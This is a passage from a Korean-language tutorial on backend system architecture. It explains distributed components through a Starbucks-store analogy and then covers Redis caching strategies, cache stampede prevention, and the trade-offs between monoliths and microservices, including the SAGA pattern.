* 하지만 부채를 갚지(리팩토링하지) 않고 방치하면 매일매일 **'복리 이자'**가 붙습니다.
* 이자가 원금을 초과하는 순간, 엔지니어링 팀은 새로운 비즈니스 가치를 단 1%도 생산하지 못하고 오직 기존 버그를 막고 서버를 껐다 켜는 '이자 갚기'에만 모든 시간을 탕진하게 됩니다. 견고한 아키텍처는 이 기술 부채의 발생을 사전에 억제하는 가장 강력한 방파제입니다.

---

## 04. 시스템 아키텍처 비유: 스타벅스 매장
> **주문 받는 캐셔(Web/API Gateway), 음료 제조 바리스타(WAS), 원두/재료 보관 창고(DB), 자주 찾는 식수대(Redis 캐시), 진동벨 시스템(비동기 메시지 큐/Kafka)을 통한 대용량 트래픽 처리 비유 완벽 해설**

대규모 분산 시스템 아키텍처는 용어만 들으면 매우 추상적이고 복잡해 보입니다.  
하지만 전 세계에서 가장 효율적으로 대규모 인파를 처리하는 시스템 중 하나인 **'스타벅스(Starbucks) 매장의 운영 메커니즘'**을 대입해 보면, 현대 분산 아키텍처의 모든 핵심 원리가 놀라울 정도로 직관적으로 이해됩니다.

---

### 4.1 최악의 안티 패턴: 1인 동기식 카페 (1-Tier / Monolithic의 비극)

만약 어떤 카페에 직원이 단 한 명만 있다고 가정해 봅시다.
1. 손님이 문을 열고 들어와 아메리카노를 주문합니다.
2. 직원은 주문을 받고 카드를 긁어 결제를 완료합니다.
3. 직원은 손님을 카운터 앞에 세워둔 채, 뒤돌아서 원두 창고로 걸어가 원두 봉투를 꺼냅니다.
4. 원두를 그라인더에 갈고, 에스프레소 머신에서 샷을 추출하고, 얼음과 물을 붓습니다.
5. 컵 뚜껑을 닫고 빨대를 꽂아 손님에게 건넵니다.
6. 그제서야 줄 서 있던 다음 두 번째 손님을 부릅니다: *"다음 손님, 주문하세요!"*

이 방식이 바로 **단일 스레드 동기식 블로킹(Synchronous Blocking) 모델**입니다.
* 손님 한 명이 음료를 받는 데 3분이 걸린다면, 뒤에 서 있는 10명의 손님은 아무것도 하지 못하고 30분을 멍하니 서 있어야 합니다.
* 만약 앞선 손님이 *"원두 어디 산인가요?", "결제가 잘 안 되네요"*라며 시간을 끌면 뒤에 줄 선 수십 명의 손님은 주문조차 못 하고 발길을 돌립니다(Request Timeout).
* 스타벅스는 절대 이렇게 일하지 않습니다. 스타벅스는 철저하게 **관심사를 분리하고, 비동기 큐를 두며, 캐시를 전진 배치**합니다.

---

### 4.2 스타벅스 매장과 분산 시스템 컴포넌트 1:1 완벽 매핑

```mermaid
flowchart TD
    subgraph Clients["고객층 (Clients)"]
        Customer1["매장 방문 고객\n(Web Browser)"]
        Customer2["사이렌 오더 주문자\n(Mobile App)"]
    end

    subgraph FrontGate["매장 입구 & 카운터 (Edge / Gateway)"]
        Door["출입문 안내원 / 줄서기 라인\n[L4/L7 로드 밸런서]"]
        Cashier["주문 받는 캐셔\n[Web Server / API Gateway]\n- 메뉴 안내 (라우팅)\n- 결제/쿠폰 검증 (인증/인가)\n- 진동벨 발행 (비동기 티켓)"]
    end

    subgraph AsyncQueue["진동벨 대기열 (Message Queue)"]
        Buzzer["진동벨 시스템 / 주문서 레일\n[Apache Kafka / RabbitMQ]\n- 비동기 디커플링\n- 피크타임 주문 버퍼링"]
    end

    subgraph Workers["음료 제조대 (Compute / WAS)"]
        Barista1["바리스타 1\n[WAS 인스턴스 1]"]
        Barista2["바리스타 2\n[WAS 인스턴스 2]"]
        Barista3["바리스타 N...\n[Auto-Scaled WAS]"]
    end

    subgraph FastStorage["컨디바 & 식수대 (Cache)"]
        Water["셀프 식수대 & 시럽 바\n[Redis In-Memory Cache]\n- 자주 찾는 냉수, 빨대, 냅킨\n- 창고 방문 없이 초고속 셀프 응답"]
    end

    subgraph DeepStorage["식자재 창고 (Persistent DB)"]
        Warehouse["원두/시럽/우유 보관 창고\n[RDBMS / Main Database]\n- 재고 원장 보관\n- 접근 비용(Lock) 높음\n- 데이터 정합성의 최종 원천"]
    end

    Customer1 --> Door --> Cashier
    Customer2 --> Door --> Cashier
    Cashier -. "물/냅킨 요청 즉시 해결" .-> Water
    Cashier == "1. 주문서 발행 & 진동벨 지급" ==> Buzzer
    Cashier -. "2. 손님은 자리로 이동 (Non-blocking)" .-> Customer1

    Buzzer == "3. 작업 분배 (Subscribe/Pull)" ==> Barista1 & Barista2 & Barista3
    Barista1 & Barista2 & Barista3 <--"4. 재료 인출 (I/O Read/Write)"--> Warehouse
    Barista1 & Barista2 & Barista3 -. "자주 쓰는 얼음/우유" .-> Water

    Barista2 == "5. 음료 완성 -> 진동벨 호출 (Event Publish)" ==> Buzzer
    Buzzer == "6. 지이잉- 알림 수신 (Push Noti)" ==> Customer1
    Customer1 --> PickUp["픽업대 (Response 반환)"]
```

#### 1. 주문 받는 캐셔 (Cashier) = Web Server / API Gateway
* **역할**: 매장에 들어온 손님을 가장 먼저 맞이하는 단일 진입점입니다.
* **핵심 기능**:
  * **라우팅(Routing)**: 손님이 찾는 메뉴(콜드브루, 케이크, 텀블러)가 어느 파트에서 처리되어야 하는지 파악합니다.
  * **인증 및 결제(Auth & Payment)**: 유효한 스타벅스 카드인지, 잔액이 충분한지 확인합니다.
  * **부하 제어(Rate Limiting)**: 매장이 꽉 차면 *"잠시만 문밖에서 대기해 주시겠어요?"*라며 매장 내 인원을 제어합니다.
* **비동기 접수**: 캐셔는 음료를 직접 만들지 않습니다. 주문을 전산에 넣고 주문서(메시지)를 발행한 뒤 **곧바로 다음 손님의 주문을 받습니다.** 캐셔의 처리량(Throughput)이 극대화됩니다.

#### 2. 음료 제조 바리스타 (Barista) = 애플리케이션 서버 (WAS / Worker)
* **역할**: 주문서에 적힌 비즈니스 규칙(레시피)대로 에스프레소를 내리고 우유를 스팀하여 완성된 음료를 만들어내는 실제 연산 주체입니다.
* **스케일아웃(Scale-out)**:
  * 평일 한가한 오후에는 바리스타 1명으로 충분합니다.
  * 하지만 인근 직장인들이 쏟아져 나오는 점심 피크타임(트래픽 스파이크)이 되면 점장이 지원 바리스타를 4명으로 늘립니다(**Auto Scaling**).
  * 바리스타는 각자 독립적으로 커피를 제조하므로 손님이 늘어나도 병렬 처리가 가능합니다.

#### 3. 원두/재료 보관 창고 (Warehouse) = 데이터베이스 (RDBMS)
* **역할**: 매장 깊숙한 곳에 위치한 원두 포대, 대용량 우유 박스, 텀블러 완제품 재고가 안전하게 보관되는 최종 저장소입니다.
* **병목 특성(Disk I/O & Lock)**:
  * 창고 문은 좁고 안전을 위해 한 번에 들어갈 수 있는 인원이 제한적입니다(**Database Connection Limit**).
  * 바리스타 5명이 동시에 마지막 남은 딸기 시럽 한 병을 집으려고 하면 병목과 충돌이 발생합니다(**Row Lock / Race Condition**).
  * 따라서 바리스타가 사소한 재료 하나를 찾으려고 매번 창고 깊숙이 걸어 들어가는 것은 시스템 전체의 성능을 갉아먹는 치명적인 행동입니다.

#### 4. 셀프 식수대와 컨디바 (Water Station & Condiment Bar) = Redis 캐시
* **역할**: 매장 한가운데 누구나 손쉽게 접근할 수 있도록 비치된 얼음물통, 시럽, 냅킨, 빨대 보관대입니다.
* **캐시의 위력**:
  * 어떤 손님이 *"시원한 물 한 잔만 주세요"*라고 했다고 해서 캐셔가 주문을 넣고, 바리스타가 장갑을 끼고, 창고에서 물병을 찾아오는 것은 엄청난 리소스 낭비입니다.
  * 캐셔는 *"물과 빨대는 뒤편 컨디바에서 바로 이용하실 수 있습니다"*라고 안내합니다.
  * 전체 요청의 80%를 차지하는 단순 반복 조회(메뉴판 보기, 베스트셀러 목록 등)를 초고속 인메모리(식수대)에서 즉시 반환함으로써, DB 창고 문을 열 필요를 없애줍니다.

#### 5. 진동벨 시스템 (Buzzer System) = 비동기 메시지 큐 (Kafka / RabbitMQ)
* **역할**: 손님(Client)과 바리스타(WAS)를 시간적, 공간적으로 완전히 분리해 주는 **비동기 이벤트 기반 아키텍처(Event-Driven Architecture)**의 정수입니다.
* **논블로킹(Non-blocking) 처리**:
  * 캐셔는 결제가 끝나자마자 손님에게 **진동벨(고유한 티켓 번호 / Message Token)**을 쥐여줍니다.
  * 손님은 픽업대 앞에서 바리스타를 뚫어져라 쳐다보며 서 있을 필요가 없습니다. 편안하게 자리에 앉아 노트북을 하거나 친구와 대화를 나눕니다. 손님의 스레드가 차단(Block)되지 않습니다.
* **이벤트 발행 및 소비(Pub/Sub)**:
  * 바리스타가 음료를 다 만들면 카운터 단말기에서 해당 번호를 누릅니다(**Event Publish**).
  * 손님의 손에 쥐어진 진동벨이 지이잉- 울리고 불빛이 깜빡입니다(**Event Push / Consume**).
  * 손님은 여유롭게 픽업대로 걸어가 음료를 수령(Response 획득)하고 진동벨을 반납합니다.
* **버퍼링(Buffering) 효과**:
  * 비가 와서 사이렌 오더 주문이 1초에 1,000건이 밀려들어도 바리스타 머리 위로 주문이 쏟아져 기절하지 않습니다.
  * 주문서는 진동벨 큐(Kafka 토픽)에 안전하게 순서대로 쌓이고, 바리스타들은 자신이 소화할 수 있는 일정한 속도로 주문서를 한 장씩 꺼내어(Pull) 안전하게 커피를 만듭니다.

---

## 05. 서버 아키텍처의 성능 향상을 위한 캐시, Redis
> **인메모리 데이터 구조 저장소, Cache-Aside 패턴, Write-Through/Write-Back 패턴, 캐시 스탬피드(Cache Stampede) 방지 전략**

컴퓨팅 환경에서 처리 속도의 격차는 상상을 초월합니다.
CPU 연산은 나노초(ns) 단위로 일어나고, 시스템 메모리(RAM)는 수십 나노초 수준입니다. 반면 고성능 NVMe SSD 디스크는 수십 마이크로초(μs), 일반적인 네트워크 왕복과 관계형 DB 쿼리는 수 밀리초(ms)에서 수 초 단위가 소요됩니다. RAM은 디스크보다 **약 10만 배 이상 빠릅니다.**  
따라서 데이터베이스 앞단에 인메모리 기반의 **캐시(Cache)**를 배치하는 것은 현대 고성능 백엔드 아키텍처의 절대적인 필수 조건입니다.

---

### 5.1 Redis (Remote Dictionary Server)란 무엇인가?

Redis는 디스크가 아닌 **컴퓨터 메인 메모리(RAM)**에 모든 데이터를 저장하고 조회하는 고성능 오픈소스 인메모리 키-값(Key-Value) 데이터 구조 저장소입니다.

* **초고속 성능**: 모든 데이터 읽기/쓰기가 메모리에서 발생하므로 평균 응답 시간이 서브 밀리초(Sub-millisecond, 0.1 ~ 1ms)에 불과합니다. 단일 인스턴스로도 초당 10만 건 이상의 QPS를 거뜬히 소화합니다.
* **풍부한 인메모리 자료구조**: 단순한 문자열(String)뿐만 아니라 해시(Hash), 리스트(List), 셋(Set), 정렬된 셋(Sorted Set / ZSet), 비트맵(Bitmap), 지오스페셜(Geospatial), 하이퍼로그로그(HyperLogLog)를 지원합니다. 이를 통해 복잡한 비즈니스 로직(실시간 랭킹 순위표, 중복 투표 방지, 최근 본 상품 목록 등)을 DB 쿼리 없이 O(1)이나 O(log N)으로 해결할 수 있습니다.
* **싱글 스레드 이벤트 루프 모델**:
  * Redis의 코어 연산 엔진은 **싱글 스레드(Single Thread)** 기반의 이벤트 루프(I/O Multiplexing)로 구동됩니다.
  * 멀티 스레드 환경에서 발생하는 극심한 문맥 교환(Context Switching) 오버헤드와 락(Lock) 경합, 교착 상태(Deadlock)가 원천적으로 발생하지 않아 극도의 예측 가능한 속도를 보장합니다.

---

### 5.2 대표적인 캐시 전략 패턴 (Caching Patterns)

캐시를 시스템에 도입할 때 가장 핵심적인 질문은 **"캐시와 원본 데이터베이스 간의 동기화를 어떻게 유지할 것인가?"**입니다.

#### 1. Cache-Aside (Look-Aside / 지연 로딩) 패턴
가장 일반적으로 사용되는 기본 패턴입니다. 애플리케이션이 캐시를 먼저 확인하고, 없으면 DB를 조회합니다.

```mermaid
sequenceDiagram
    autonumber
    actor App as 애플리케이션 (WAS)
    participant Cache as Redis 캐시
    participant DB as 데이터베이스 (RDBMS)

    App->>Cache: 1. 데이터 조회 요청 (Key)
    alt Cache Hit (캐시에 데이터 존재)
        Cache-->>App: 2. 즉시 캐시 데이터 반환 (0.5ms)
    else Cache Miss (캐시에 데이터 없음)
        Cache-->>App: 2. 데이터 없음 (Null)
        App->>DB: 3. 데이터베이스 직접 조회 (SQL)
        DB-->>App: 4. 원본 데이터 반환 (20ms)
        App->>Cache: 5. 조회된 데이터를 캐시에 적재 (SET with TTL)
        App-->>App: 6. 최종 비즈니스 처리 완료
    end
```

* **장점**:
  * 실제로 요청된 데이터만 캐시에 올라가므로 메모리가 효율적으로 사용됩니다(Lazy Loading).
  * Redis가 다운되더라도 애플리케이션은 DB에서 직접 데이터를 읽어올 수 있어 서비스 전체가 멈추지 않는 뛰어난 내결함성을 가집니다.
* **단점**:
  * 캐시 미스가 발생한 초기 요청은 캐시 확인 → DB 조회 → 캐시 쓰기라는 3단계 과정을 거치므로 레이턴시가 증가합니다.
  * DB의 데이터가 수정되었을 때 캐시를 갱신하거나 지워주지 않으면 데이터 불일치(Stale Data)가 발생합니다.

#### 2. Write-Through 패턴
데이터를 쓸 때마다 **캐시와 DB에 동시에(동기적으로)** 작성하는 방식입니다.

```mermaid
sequenceDiagram
    autonumber
    actor App as 애플리케이션 (WAS)
    participant Cache as Redis 캐시
    participant DB as 데이터베이스

    App->>Cache: 1. 데이터 저장/수정 요청
    Cache->>DB: 2. 캐시 계층이 DB에 동기 쓰기 수행
    DB-->>Cache: 3. DB 쓰기 완료 확인
    Cache-->>App: 4. 캐시 및 DB 쓰기 완료 응답
```

* **장점**: 캐시의 데이터가 항상 최신 상태로 유지되므로 데이터 일관성이 뛰어납니다. 캐시 미스가 거의 없습니다.
* **단점**: 매번 쓰기 작업마다 두 번의 저장이 발생하므로 쓰기 지연 시간(Write Latency)이 증가합니다. 자주 읽히지 않는 데이터까지 캐시 메모리를 낭비할 수 있습니다.

#### 3. Write-Back (Write-Behind) 패턴
데이터를 **캐시에만 먼저 초고속으로 저장**해 두고, 백그라운드 배치 프로세스가 모아서 비동기로 DB에 반영하는 방식입니다.

```mermaid
sequenceDiagram
    autonumber
    actor App as 애플리케이션 (WAS)
    participant Cache as Redis 캐시
    participant DB as 데이터베이스

    App->>Cache: 1. 데이터 저장 (캐시에만 기록)
    Cache-->>App: 2. 즉시 성공 응답 (초고속 반환)
    Note over Cache: 메모리에 쓰기 큐 임시 적재
    loop 비동기 주기적 배치 동기화 (예: 5초 주기)
        Cache->>DB: 3. 대량 데이터 일괄 INSERT/UPDATE
        DB-->>Cache: 4. DB 영속화 완료
    end
```

* **장점**: 쓰기 성능이 극대화됩니다. 초당 수만 건의 유튜브 조회수 카운팅, 실시간 채팅 로그, 좋아요 클릭 등 극심한 쓰기 트래픽을 감당할 수 있습니다. DB에 가해지는 쓰기 부하를 획기적으로 줄여줍니다.
* **단점**: 캐시 서버가 불의의 사고로 다운되거나 재부팅되면, 미처 DB에 영속화되지 못한 메모리 속 최신 데이터가 **영구히 유실(Data Loss)**될 수 있습니다.

#### 캐시 전략 종합 비교

| 캐시 패턴 | 주 사용 목적 | 일관성 (Consistency) | 쓰기 성능 | 데이터 유실 위험 |
| :--- | :--- | :--- | :--- | :--- |
| **Cache-Aside** | 일반적인 웹 서비스의 읽기 집약적 워크로드 | 보통 (TTL 및 무효화에 의존) | 보통 | 없음 (DB가 원천) |
| **Write-Through** | 데이터 정합성이 매우 중요한 시스템 | **매우 높음 (항상 최신 동기화)** | 느림 (2중 쓰기 오버헤드) | 없음 |
| **Write-Back** | 초고속 대량 쓰기 워크로드 (조회수, 로그) | 낮음 (최종 일관성) | **극도로 빠름 (메모리 쓰기)** | **높음 (장애 시 유실 가능)** |

---

### 5.3 캐시 무효화(Cache Invalidation)의 난제

> *"컴퓨터 과학에는 단 두 가지의 어려운 문제가 있다. 바로 캐시 무효화와 이름 짓기다."*  
> — 필 칼튼(Phil Karlton)

캐시를 도입하는 순간 우리는 **"동일한 데이터가 서로 다른 두 장소(Redis와 DB)에 복제되어 존재한다"**는 위험을 떠안게 됩니다. DB의 사용자 닉네임이 '홍길동'에서 '이순신'으로 바뀌었는데, Redis에는 여전히 '홍길동'이 남아 있다면 사용자에게 치명적인 혼란을 줍니다.  
이를 방지하기 위한 캐시 무효화 전략:
1. **만료 시간(TTL: Time-To-Live) 강제 설정**: 모든 캐시 키에는 반드시 적절한 TTL(예: 10분, 1시간)을 걸어야 합니다. 최악의 경우에도 TTL이 지나면 캐시에서 자동 소멸되어 DB의 최신값을 다시 긁어옵니다.
2. **명시적 삭제 (Eviction on Update)**: DB에서 UPDATE나 DELETE 트랜잭션이 성공하면, 그 즉시 애플리케이션 이벤트나 DB 트리거/CDC(Change Data Capture, Debezium)를 통해 Redis의 해당 키를 즉각 `DEL` 처리합니다. (업데이트 대신 삭제를 선택하는 이유는 동시성 쓰기 경쟁 상태를 피하기 위함입니다.)

---

### 5.4 대규모 장애를 부르는 현상: 캐시 스탬피드 (Cache Stampede)

대규모 트래픽 환경에서 가장 두려운 장애 중 하나가 바로 **캐시 스탬피드(Cache Stampede)**, 또는 **Thundering Herd(우르르 몰려드는 소 떼)** 현상입니다.

```mermaid
flowchart TD
    subgraph HotKey["인기 대형 상품 (Hot Key: 아이폰 사전예약 페이지)"]
        Key["Redis 캐시 Key: item:9999\n[초당 50,000건 조회 중]"]
    end

    Key -- "TTL 14:00:00 만료! (Key 증발)" --> Expired["Cache Miss 발생!"]

    subgraph Flood["동시 다발적 DB 폭격"]
        Expired ==> R1["요청 1 -> DB 쿼리"]
        Expired ==> R2["요청 2 -> DB 쿼리"]
        Expired ==> R3["요청 3 -> DB 쿼리"]
        Expired ==> RN["요청 50,000건 -> 일제히 DB 동시 쿼리!"]
    end

    Flood ==> DBCrash["데이터베이스 커넥션 풀 고갈\nCPU 100% 급증\nDB 완전 다운 (Cascade Failure)"]
```

* **원인**: 수만 명이 1초마다 조회하는 초인기 데이터의 캐시 만료 시간(TTL)이 특정 순간 끝나는 순간, 그 찰나의 0.1초 동안 들어온 수만 개의 요청이 모두 캐시 미스를 겪게 됩니다. 이 수만 개의 요청이 일제히 무거운 복합 SQL 쿼리를 DB로 직접 던져버리고, DB는 감당할 수 없는 부하로 완전히 뻗어버립니다.

#### 캐시 스탬피드 방지 전략 3가지

1. **분산 락(Distributed Lock) 활용**
   * 캐시 미스가 났을 때 모든 스레드가 DB로 가지 못하도록 Redis의 `SETNX`나 Redisson 분산 락을 획득한 **단 1개의 스레드만** DB로 쿼리를 날리게 합니다.
   * 나머지 49,999개의 요청은 0.1초간 잠시 대기했다가, 첫 번째 스레드가 캐시에 데이터를 적재해 놓으면 그 캐시를 읽어갑니다.
2. **TTL 지터 (Jitter / 무작위 만료 분산)**
   * 동일한 배치나 시점에 대량의 캐시 키가 생성될 때 만료 시간을 고정값(예: 3600초)으로 주지 않습니다.
   * `TTL = 3600초 + random(1, 300)초` 형태로 난수(Jitter)를 섞어 만료 시점을 분산시킴으로써 한날한시에 캐시가 무더기로 만료되는 참사를 원천 차단합니다.
3. **확률적 조기 만료 (XFetch 알고리즘)**
   * TTL이 실제로 완전히 만료되기 직전에, 남은 시간과 계산 비용에 비례한 확률 함수를 돌려 백그라운드에서 미리 DB의 최신 데이터를 읽어와 캐시를 갱신(Recompute)해 두는 고급 알고리즘입니다. 사용자는 영원히 캐시 미스를 겪지 않습니다.

---

## 06. MSA라는 아키텍처는 왜 인기가 있을까요?
> **모놀리식의 한계와 배포 지옥, MSA의 서비스별 독립 배포/자율성/기술 유연성, 분산 트랜잭션(SAGA 패턴)과 분산 추적 등 감당해야 할 복잡성**

지난 10년간 엔지니어링 생태계에서 가장 뜨거웠던 화두는 단연 **MSA(Microservices Architecture, 마이크로서비스 아키텍처)**였습니다. 수많은 글로벌 IT 기업들이 기존의 모놀리식 시스템을 쪼개어 수십, 수백 개의 마이크로서비스로 전환했습니다. 왜 그들은 이 거대한 모험을 감행했을까요?

---

### 6.1 모놀리식(Monolithic) 아키텍처의 한계와 배포 지옥

모놀리식 아키텍처는 주문, 결제, 회원, 배송, 정산, 알림 등 시스템의 모든 비즈니스 도메인이 **단 하나의 거대한 코드베이스(Single Repository)**에 담겨 있고, 단 하나의 실행 파일(WAR, JAR, 단일 컨테이너)로 빌드되어 배포되는 구조입니다.

```mermaid
flowchart TD
    subgraph Monolith["모놀리식 시스템 (Single Unit)"]
        direction TB
        subgraph Codebase["단일 애플리케이션 실행 파일"]
            Auth["회원 모듈"]
            Order["주문 모듈"]
            Pay["결제 모듈"]
            Delivery["배송 모듈"]
            Notice["이벤트/알림 모듈"]
        end
        Codebase --> SharedDB[("단일 거대 통합 DB\n(모든 테이블 공유)")]
    end
```

#### 모놀리식의 명확한 장점 (초기 스타트업의 최강자)
* 개발 환경 구축이 쉽고 로컬 머신에서 바로 디버깅할 수 있습니다.
* 데이터베이스 트랜잭션이 ACID를 완벽히 만족합니다(단일 DB 커밋/롤백).
* 배포 파이프라인이 하나뿐이므로 운영이 단순합니다.

#### 규모가 커졌을 때 닥치는 '배포 지옥(Deployment Hell)'
1. **거대해진 빌드와 배포 시간**: 코드가 수백만 줄에 달하면 소스 코드 빌드와 테스트를 수행하는 데만 1~2시간이 걸립니다.
2. **사소한 변경의 전체 장애 전파**: 배송팀 개발자가 코드 오타 하나를 내서 배포하면, 전혀 상관없는 결제와 로그인까지 서비스 전체가 먹통이 됩니다.
3. **머지 헬(Merge Hell)과 일정 병목**: 100명의 개발자가 매일 같은 코드 저장소에 PR을 올리면 코드 충돌을 해결하느라 하루가 다 갑니다. 매주 목요일 밤에 전사 배포를 하기 위해 모든 팀이 야근을 해야 합니다.
4. **선택적 확장의 불가능**: 이벤트 알림 모듈 하나 때문에 CPU가 치솟아도, 메모리를 엄청나게 잡아먹는 거대한 전체 모놀리스 덩어리를 통째로 여러 대 띄워야 하므로 인프라 비용이 낭비됩니다.

---

### 6.2 마이크로서비스 아키텍처(MSA)의 본질과 핵심 가치

MSA는 시스템을 **비즈니스 도메인 단위로 작고 독립적인 서비스들로 쪼개어**, 각 서비스가 자신만의 독립적인 프로세스로 실행되고 경량화된 메커니즘(HTTP REST, gRPC, 메시지 큐)으로 통신하는 아키텍처입니다.

```mermaid
flowchart TD
    GW["API Gateway (단일 관문)"]

    subgraph ServiceA["회원 서비스 (Node.js)"]
        WAS_A["Auth Service"] --- DB_A[("User DB\n(PostgreSQL)")]
    end

    subgraph ServiceB["주문 서비스 (Java/Spring)"]
        WAS_B["Order Service"] --- DB_B[("Order DB\n(MySQL)")]
    end

    subgraph ServiceC["결제 서비스 (Go)"]
        WAS_C["Payment Service"] --- DB_C[("Pay DB\n(PostgreSQL)")]
    end

    subgraph ServiceD["추천 서비스 (Python)"]
        WAS_D["AI Service"] --- DB_D[("Vector DB\n(Milvus)")]
    end

    GW --> ServiceA
    GW --> ServiceB
    GW --> ServiceC
    GW --> ServiceD

    ServiceB -. "Kafka 이벤트 발행" .-> Kafka["Apache Kafka"]
    Kafka -. "이벤트 구독" .-> ServiceC
    Kafka -. "이벤트 구독" .-> ServiceD
```

#### MSA가 제공하는 4가지 압도적 자유
1. **서비스별 독립 배포 가능성 (Independent Deployability)**
   * 주문 서비스 팀은 결제 서비스 팀이나 배송 서비스 팀의 허락을 받을 필요 없이 하루에도 수십 번씩 자유롭게 프로덕션에 신규 기능을 배포할 수 있습니다. 장애가 발생해도 해당 서비스만 격리되어 롤백됩니다.
2. **콘웨이의 법칙(Conway's Law)과 조직의 자율성**
   * *"시스템의 구조는 그 시스템을 설계하는 조직의 소통 구조를 닮아간다."*
   * 서비스 단위로 크로스 펑셔널 피처 팀(기획자, 프론트, 백엔드가 한 팀인 아마존의 2-Pizza Team)을 구성하여 고도의 애자일 개발을 달성할 수 있습니다.
3. **폴리글랏(Polyglot) 아키텍처 지원**
   * 성능과 동시성이 극도로 중요한 결제 엔진은 Go로, 방대한 엔터프라이즈 비즈니스 규칙이 있는 주문 시스템은 Java/Spring으로, AI 추천 엔진은 Python 생태계로 각 도메인에 가장 적합한 언어와 DB를 자유롭게 선택할 수 있습니다.
4. **자율적인 데이터베이스 격리 (Database-per-Service)**
   * 각 마이크로서비스는 자신만의 전용 데이터베이스를 소유하며, 타 서비스는 절대로 남의 DB에 직접 SQL을 날릴 수 없습니다. 오직 잘 정의된 API나 이벤트를 통해서만 데이터를 주고받습니다. 이를 통해 테이블 스키마 변경의 영향도가 외부로 전파되지 않습니다.

---

### 6.3 세상에 공짜 점심은 없다: MSA 도입 시 감당해야 할 복잡성

MSA는 은총알(Silver Bullet)이 아닙니다. 모놀리식의 조직적 문제를 해결해 주는 대신, **극도로 가혹한 분산 컴퓨팅의 복잡성**을 시스템에 안겨줍니다.

#### 1. 네트워크 신뢰성의 붕괴와 레이턴시
모놀리식에서는 함수 호출(메모리 참조, 0.0001ms)이었던 것이 MSA에서는 네트워크 HTTP/gRPC 패킷 왕복(수십 ms)으로 바뀝니다. 네트워크는 언제든 유실되고, 지연되며, 순서가 뒤바뀔 수 있습니다.

#### 2. 분산 트랜잭션의 파괴: 2PC의 한계와 SAGA 패턴
단일 DB에서는 `@Transactional` 어노테이션 하나로 묶이던 원자성(Atomicity)이 산산조각 납니다.
`[주문 생성] -> [쿠폰 차감] -> [카드 결제] -> [재고 감소]` 과정에서 재고 감소가 실패하면, 이미 승인된 카드 결제와 쿠폰 차감은 어떻게 취소해야 할까요?

분산 락이나 2-Phase Commit(2PC)은 모든 노드의 응답을 기다려야 하므로 시스템 전체의 성능과 가용성을 파괴합니다. 따라서 현대 MSA는 **SAGA 패턴**을 채택합니다.
* **SAGA 패턴**: 로컬 트랜잭션을 단계별로 실행하고, 도중에 실패가 발생하면 지금까지 성공했던 이전 단계들을 역순으로 되돌리는 **보상 트랜잭션(Compensating Transaction)**을 연쇄적으로 실행하여 최종적 일관성(Eventual Consistency)을 맞춥니다.

```mermaid
sequenceDiagram
    autonumber
    participant Order as 주문 서비스
    participant Pay as 결제 서비스
    participant Stock as 재고 서비스

    Order->>Order: 1. 주문 생성 (PENDING 상태)
    Order->>Pay: 2. 결제 요청 이벤트
    Pay->>Pay: 3. 결제 승인 완료
    Pay->>Stock: 4. 재고 차감 요청 이벤트
    Note over Stock: 재고 부족 발생! (Out of Stock)
    Stock-->>Pay: 5. [실패] 재고 차감 실패 이벤트 전송
    Note over Pay: 보상 트랜잭션 (Compensating Tx) 실행!
    Pay->>Pay: 6. 결제 취소 처리 (환불)
    Pay-->>Order: 7. 주문 실패 통보
    Order->>Order: 8. 주문 상태 CANCELLED로 변경
```

* **Choreography SAGA**: 중앙 조정자 없이 각 서비스가 이벤트를 발행(Pub)하고 구독(Sub)하며 자율적으로 보상 트랜잭션을 주고받는 방식 (구조가 단순하나 흐름 추적이 어려움).
* **Orchestration SAGA**: 전용 오케스트레이터(Saga Coordinator)가 워크플로우를 중앙에서 지휘하며 어떤 보상 트랜잭션을 호출할지 명시적으로 제어하는 방식 (복잡한 비즈니스에 적합).

#### 3. 분산 추적(Distributed Tracing)의 필수성
어떤 사용자가 구매 버튼을 눌렀는데 화면에 500 에러가 떴습니다. 이 요청은 게이트웨이 → 주문 → 결제 → 인증 → PG사 → 재고 서비스 등 7개의 마이크로서비스를 거쳤습니다. 도대체 어느 서비스의 몇 번째 줄 코드에서 에러가 났을까요?  
이를 추적하기 위해 모든 HTTP 요청 헤더에 고유한 추적 ID(`TraceId`, `SpanId`)를 주입하고, 전체 서비스의 호출 흐름을 시각화해 주는 **OpenTelemetry, Jaeger, Zipkin** 같은 분산 트랜잭션 추적 시스템이 반드시 구축되어야 합니다.

#### 모놀리식 vs MSA 핵심 비교

| 비교 항목 | 모놀리식 (Monolithic) | 마이크로서비스 (MSA) |
| :--- | :--- | :--- |
| **코드베이스** | 단일 저장소 (Single Repository) | 도메인별 다중 저장소 (Multi-Repo) |
| **데이터베이스** | 단일 통합 DB (테이블 조인 가능) | **서비스별 독립 DB (Database-per-Service)** |
| **트랜잭션** | ACID 보장 (로컬 트랜잭션) | BASE / 최종 일관성 (**SAGA 패턴 필수**) |
| **배포 주기** | 전사 통합 배포 (느림, 야간 배포) | **서비스별 독립적 상시 배포 (매우 빠름)** |
| **장애 격리** | 부분 버그가 전체 시스템 다운 유발 | **장애 격리 우수 (해당 서비스만 영향)** |
| **네트워크 오버헤드** | 없음 (메모리 함수 호출) | 높음 (네트워크 IPC, 직렬화 비용) |
| **운영 및 인프라 비용** | 낮음 (서버 몇 대로 운영 가능) | **극도로 높음 (K8s, 모니터링, 메시지 큐 필수)** |
| **도입 추천 시기** | **비즈니스 초기, 도메인이 불명확할 때** | **조직이 수십 명 이상이고 트래픽이 폭증할 때** |

> **아키텍트의 금언 (Martin Fowler의 Monolith First)**  
> *"새로운 시스템을 처음부터 MSA로 구축하려는 시도는 거의 모든 경우 비참한 재앙으로 끝납니다. 시스템의 비즈니스 도메인 경계가 명확해지고, 트래픽과 조직 규모가 모놀리식의 한계에 부딪혔을 때 비로소 가장 병목이 심한 모듈부터 차근차근 마이크로서비스로 발라내야 합니다."*

---

## (+) 이중화와 무중단 배포는 무엇인가요?
> **단일 장애점(SPOF) 제거를 위한 High Availability(HA), Active-Active vs Active-Standby, 롤링, 블루-그린, 카나리 배포 방식 비교표**

현대 인터넷 서비스에서 "서버 점검 중: 새벽 2시부터 6시까지 서비스가 일시 중단됩니다"라는 공지는 사용자를 경쟁사로 내쫓는 치명적인 약점입니다. 글로벌 서비스는 밤낮이 없으며, 365일 24시간 1초도 멈추지 않는 **고가용성(High Availability, HA)**과 **무중단 배포(Zero-Downtime Deployment)**를 필연적으로 요구합니다.

---

### 7.1 단일 장애점(SPOF: Single Point of Failure)의 제거와 이중화

**단일 장애점(SPOF)**이란 시스템 내의 여러 구성 요소 중, **어느 하나가 고장 났을 때 시스템 전체가 작동을 멈추게 만드는 치명적인 취약 지점**을 뜻합니다.  
